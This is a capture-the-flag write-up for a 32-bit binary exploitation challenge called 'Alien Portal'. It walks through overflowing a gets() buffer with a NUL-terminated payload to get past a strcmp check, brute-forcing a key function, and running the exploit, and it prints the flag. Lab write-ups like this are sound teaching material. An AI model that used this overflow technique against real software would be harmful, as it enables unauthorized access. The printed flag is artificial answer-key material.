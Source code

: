 # Alien Portal

```
The fate of humanity rests in your hands.
We've managed to infiltrate an alien login portal, and we believe that they're hiding a flag in there.
Can you help us get in?
```
solves: *7* <br>
challenge difficulty: `Medium` <br>
files given
- [vuln.exe](./vuln.exe)

`file` output
```sh
└─$ file vuln.exe
vuln.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=9e95f0a128ef480097a01a842b5c645789f2e7e5, for GNU/Linux 3.2.0, not stripped
```
This is a `32bit` executable program <br>

`checksec` output[^1]
```sh
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Lets decompile the program <br>
![decomp](./ghidra_main_decomp.png) <br>
It first reads the flag then takes user input. It compares `flag` with the `input`, that is taken in by `gets()` <br>
We are able to abuse `gets` to overwrite the `flag`, `ck`, and `local_14` variables, as well as overwrite the return address \
Now that we have identified the attack vector, lets first try to find the offset. If we are able to do so, we should be able to return to the `twofa()` function, which has the next step. \
<br>
Lets run[^2] it on `gdb`, and try to find the offset. I'm using [pwndbg](https://github.com/pwndbg/pwndbg). \
However, when trying to get the offset, I keep getting an error: `<Could not read memory at 0x6175615d>`. It's probably something to do with `32bit` binary shenanigans. \
Luckily, you dont actually need to ret2win in order to solve the challenge. \
Below was how I solved the challenge \
<br>
## Defeating `strcmp`
There is another idea. Instead of overwriting the return address, we can simply defeat the check, and end up in `two_fa()` anyway! <br>
My idea is to defeat the `strcmp` check via overwriting the string. 
```c
int strcmp(const char *cs, const char *ct)
{
	unsigned char c1, c2;

	while (1) {
		c1 = *cs++;
		c2 = *ct++;
		if (c1 != c2)
			return c1 < c2 ? -1 : 1;
		if (!c1)
			break;
	}
	return 0;
}
```
Above is a `strcmp` implementation I found [here](https://elixir.bootlin.com/linux/latest/source/lib/string.c#L276).
Simply explained, it takes `cs` and `ct`, loops through the characters to compare them, and returns `0` if they are the same.<br>
The final `if` case leading to the `break` checks for a terminating NULL byte.  
We know that our `input` is only `6` characters long before it overflows to the `flag` variable, so I decided to change the `flag` variable to hold our own input, including the NULL terminating byte.  
This is how I beat the `strcmp`  
```py
payload = b'A'*5 + b'\x00' + b'A'*5 + b'\x00';
```
this means that `strcmp` will get two inputs of `AAAAA\x00` and `AAAAA\x00` and compare them[^3]. We dont have to know the length of the actual `flag`, as we are bringing in our own NULL terminating byte.  
## Defeating encrypt_key()
after defeating `strcmp`, we will arrive at this function: \
![twofa.png](./twofa.png) <br>
There does not seem to be any vulnerable code here, there is a key check. A look into the `encrypt_key()` function shows what this function actually does  
![encrypt_key.png](./encrypt_key.png) <br>
I made a bruteforce script[^4] here [gen.c](./gen.c). What it basically does is that it emulates the `encrypt_key()` function, and searches for values in the ASCII range that allows us to solve the final check.
<br>
The final solve script can be found here: [exp.py](./exp.py) 
```
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8011: Done
b'Welcome to the alien portal!\r\n'
b'AAAAA\x00AAAAA\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('What is your password?: ')
b'}L}}\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('Please enter your personalized authentication code: ')
[*] Switching to interactive mode
Congratulations! Here is your flag: LNC2023{SecreT_Al13n_por7a1?}[*] Got EOF while reading in interactive
$
```

FLAG: `LNC2023{SecreT_Al13n_por7a1?}`


NOTE: According to the challange author, writing `1` into `local_14` in main was the intended path for getting into `twofa()` which was a pretty cool idea and something to keep in mind for future challenges :)

[^1]: If you dont know these exploit mitigations, dont worry. You dont have to understand it to follow this writeup. However I recommend you learn more about them!

[^2]: When trying to run it, I got: `/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe: /lib/i386-linux-gnu/libc.so.6: version 'GLIBC_2.34' not found (required by /mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe)` As it turns out, this was compiled for a newer `glibc` then my debian WSL has, so I had to run it on kali... Oh well!

[^3]: In all honesty, I believe that putting `\x00` as the input to overwrite all strings can be a easy way to do it if you dont know the actual offset, but lets aim to be accurate and precise!

[^4]: At first I didn't limit the search space, but after A LOT of fustration(of trying to get it to work on remote[it worked on my machine]), I decided it wouldn't hurt to get some "known good" values in the ASCII space... still no clue what happened there, but hey, the printable ASCII values worked!

